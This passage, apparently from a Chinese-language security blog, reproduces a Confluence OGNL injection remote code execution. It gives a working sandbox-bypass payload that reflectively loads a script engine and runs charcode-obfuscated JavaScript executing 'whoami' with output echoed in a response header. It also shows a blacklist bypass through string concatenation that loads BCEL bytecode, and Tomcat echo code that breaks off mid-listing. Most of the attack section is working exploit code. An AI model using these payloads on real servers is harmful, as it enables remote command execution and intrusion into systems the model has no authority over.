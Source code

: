 ## 漏洞复现(沙箱绕过)
这里只谈高版本的利用，直接使用`Class.forName`反射拿到关键类即可
其实早在CVE-2021-26084就有过相关回显研究：[CVE-2021-26084-Atlassian Confluence OGNL注入漏洞分析与回显](http://www.360doc.com/content/21/1112/17/67871819_1003881195.shtml)
### ScriptEngineManager
p神的回显exp：
```java
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-CMD",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,119,104,111,97,109,105,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115))"))}
```
其中的js代码为：
```js
var s='';var pp = java.lang.Runtime.getRuntime().exec('whoami').getInputStream();while (1) {var b = pp.read();if (b == -1) {break;}s=s+String.fromCharCode(b)};s
```
![](https://img-blog.csdnimg.cn/d037a851588142819e122ba15fa81ac1.png)

成功在header处回显
### ClassLoader
可以发现Confluence 自带了一个`org.apache.bcel.util.ClassLoader`，位于 xalan-2.7.2.jar 包中
![](https://img-blog.csdnimg.cn/9ac23084e9ac434f9cf16571253cbfea.png)

可以直接loadClass加载BCEL字节码，由于在黑名单内，字符串拼接绕过
```java
${Class.forName("org.ap"+"ache.bcel.util.ClassLoader").newInstance().loadClass("$$BCEL$$"+code).newInstance()}
```
中间件是Tomcat，使用Tomcat9的回显即可，代码如下：
```java
public class ConfluenceEcho {
    static {
        try{
        Object obj = Thread.currentThread();
        java.lang.reflect.Field field = obj.getClass().getSuperclass().getDeclaredField("group");
        field.setAccessible(true);
        obj = field.get(obj);

        field = obj.getClass().getDeclaredField("threads");
        field.setAccessible(true);
        obj = field.get(obj);

        Thread[] threads = (Thread[])obj;
        label:for(Thread thread : threads){
            try{
                if(thread.getName().contains("http-nio") && thread.getName().contains("Acceptor")) {
                    field = thread.getClass().getDeclaredField("target");
                    field.setAccessible(true);
                    obj = field.get(thread);

                    field = obj.getClass().getDeclaredField("endpoint");
                    field.setAccessible(true);
                    obj = field.get(obj);

```
